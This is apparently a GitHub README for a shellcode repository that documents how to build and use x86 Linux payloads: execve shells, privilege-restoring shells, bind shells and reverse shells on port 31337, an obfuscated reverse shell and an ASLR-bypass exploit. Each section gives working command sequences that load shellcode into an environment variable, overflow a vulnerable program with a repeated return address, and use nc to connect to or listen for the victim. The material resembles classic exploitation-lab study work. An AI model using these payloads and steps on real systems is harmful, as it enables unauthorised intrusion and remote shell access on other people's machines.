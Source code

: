 # Raw Shellcode

Some C and x86 Assembly code to build a shell-spawning shellcode from scratch

Tested on **Linux Kernel 2.6.20**


### List of files

#### getenvaddr.c

Get the (shellcode) environment variable address within a program
```
$ gcc -g -o getenvaddr getenvaddr.c
$ ./getenvaddr: <env_var> <vuln_program>
```

#### exec_shell

Spawn a shell with execve()
```
$ nasm <exec_shell.s>
$ export SHELLCODE=$(cat exec_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### priv_shell

Restore root privileges and spawn a shell
```
$ gcc -o drop_priv drop_priv.c
$ nasm <priv_shell.s>
$ export SHELLCODE=$(cat priv_shell)
$ ./getenvaddr SHELLCODE ./<drop_priv>
$ ./drop_priv $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### priv_shell2

Reviewed payload
```
$ gcc -o drop_priv drop_priv.c
$ nasm <priv_shell2.s>
$ export SHELLCODE=$(cat priv_shell2)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./drop_priv $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### bind_port

Create a TCP socket, bind to port 31337 and wait for clients
```
$ nasm <bind_port.s>
$ export SHELLCODE=$(cat bind_port)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### bind_shell

Bind a shell on port 31337
```
$ nasm <bind_shell.s>
$ export SHELLCODE=$(cat bind_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
bad$ nc <IP> 31337  # connect to target
```

#### bind_shell2

Reviewed payload
```
$ nasm <bind_shell2.s>
$ export SHELLCODE=$(cat bind_shell2)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
bad$ nc <IP> 31337  # connect to target
```

#### reverse_shell

Connect back to <bad_IP>:31337 and open a shell
```
$ nasm <reverse_shell.s>
$ export SHELLCODE=$(cat reverse_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
bad$ nc -lp 31337  # listen for victim
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### reverse_shell_obf

Obfuscated payload
```
$ nasm <reverse_shell_obf.s>
$ export SHELLCODE=$(cat reverse_shell_obf)
$ ./getenvaddr SHELLCODE ./<vuln_program>
bad$ nc -lp 31337  # listen for victim
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### aslr_exploit

Exploit aslr_vuln program, bypass ASLR restriction and spawn a shell
```
$ gcc -o aslr_vuln aslr_vuln.c
$ gcc -o aslr_exploit aslr_exploit.c
$ ./aslr_exploit
```
